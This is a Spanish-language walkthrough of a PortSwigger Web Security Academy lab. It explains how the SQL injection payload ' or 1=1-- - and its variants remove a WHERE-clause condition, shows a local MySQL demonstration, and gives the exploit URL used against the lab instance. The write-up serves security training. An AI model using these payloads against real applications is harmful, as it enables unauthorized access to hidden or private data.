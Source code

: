 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:

- Esta en la query original:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

- Y al final se termina "rompiendo" así _(quitando esas condicionales muahaha!)_:

````sql
SELECT * FROM products WHERE category = 'Gifts' or 1 = 1-- -' AND released = 1 (soy la noche :P)
````

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)


---

### Ejemplo con lab:

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: 
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `' or 1 = 1 --` o`' or 1 = 1-- -` o `' or 1 = 1-- -'` o `' or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:
- Es decir, con este payload le estoy pidiendo en la query que regrese el `id=5` (osea solo `Ff0ur`) o todo donde sea `1=1` (osea `true`)... osea todo!!! porque todo es true!!!!!! muahaha!! ;)

````sql
# Ejemplo Final: (ya con SQLi)
select id,username from users where subscription = '1' or 1 = 1;-- - and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````

- OJO! en consola de `mysql` se deben poner los `;`, pero en web no.

## Solución:

1. Importante ir a un directorio donde sea vulnerable _(en este caso son las secciones)_

2. Query que usé

````sql
'or 1=1-- -
````
````http
https://0a83007b03adf85d811702c2004f0064.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/2d654adb-8e7f-41eb-b8fc-84c9935c3e83)




